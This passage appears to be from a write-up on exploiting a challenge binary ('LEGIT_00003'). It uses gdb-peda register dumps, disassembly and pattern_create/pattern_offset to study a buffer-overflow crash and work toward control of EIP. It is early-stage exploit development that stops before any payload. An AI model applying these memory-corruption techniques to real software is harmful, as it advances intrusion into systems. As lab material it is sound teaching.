 ```
EDI: 0x0 
EBP: 0xbaaaaed4 --> 0xbaaaaf34 ("AAAAAA\004\b\202\257\252\272\002")
ESP: 0xbaaaaec4 --> 0x0 
EIP: 0x8048201 (mov    BYTE PTR [ecx+eax*1],dl)
EFLAGS: 0x10297 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80481f8:	mov    dl,BYTE PTR [ecx+eax*1]
   0x80481fb:	mov    eax,DWORD PTR [ebp-0x10]
   0x80481fe:	mov    ecx,DWORD PTR [ebp-0x4]
=> 0x8048201:	mov    BYTE PTR [ecx+eax*1],dl
   0x8048204:	mov    eax,DWORD PTR [ebp-0x10]
   0x8048207:	add    eax,0x1
   0x804820c:	mov    DWORD PTR [ebp-0x10],eax
   0x804820f:	jmp    0x80481e6
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaec4 --> 0x0 
0004| 0xbaaaaec8 --> 0x2e ('.')
0008| 0xbaaaaecc --> 0xbaaaaf0c ('A' <repeats 46 times>, "\004\b\202\257\252\272\002")
0012| 0xbaaaaed0 ("AAAA4\257\252\272\060\203\004\bAAAA\f\257\252\272.")
0016| 0xbaaaaed4 --> 0xbaaaaf34 ("AAAAAA\004\b\202\257\252\272\002")
0020| 0xbaaaaed8 --> 0x8048330 (add    esp,0x54)
0024| 0xbaaaaedc ("AAAA\f\257\252\272.")
0028| 0xbaaaaee0 --> 0xbaaaaf0c ('A' <repeats 46 times>, "\004\b\202\257\252\272\002")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048201 in ?? ()
gdb-peda$ 

```


Ok no EIP control on our first attempt. No big deal but EIP control is mandatory for a Type1 proof of vulnerability so we need that. We crashed on an attempt to load memory at an address of ECX+EAX*1. We can see our ECX register is set to "0x41414141" so we can say we can control ECX. EAX is 0x00 at the time of the crash so if we insert a valid address into ECX we will make it past this crash onto greener pastures? Who can say. Let's try it!

I use PEDA's pattern create to find our crash offset:


```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/vagrant/LEGIT_00003/legit_00003 
1) Gimme Name
2) Print Name
3) Exit
: 1
Enter Name: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
----------------------------------registers-----------------------------------]
EAX: 0x0 
ECX: 0x41412941 ('A)AA')
EIP: 0x8048201 (mov    BYTE PTR [ecx+eax*1],dl)
[-------------------------------------code-------------------------------------]
=> 0x8048201:	mov    BYTE PTR [ecx+eax*1],dl
[------------------------------------stack-------------------------------------]
0012| 0xbaaaaed0 ("A)AA4\257\252\272\060\203\004\bA)AA\f\257\252\272\060")
[------------------------------------------------------------------------------]
Stopped reason: SIGSEGV
0x08048201 in ?? ()
gdb-peda$ pattern_offset 0x41412941
```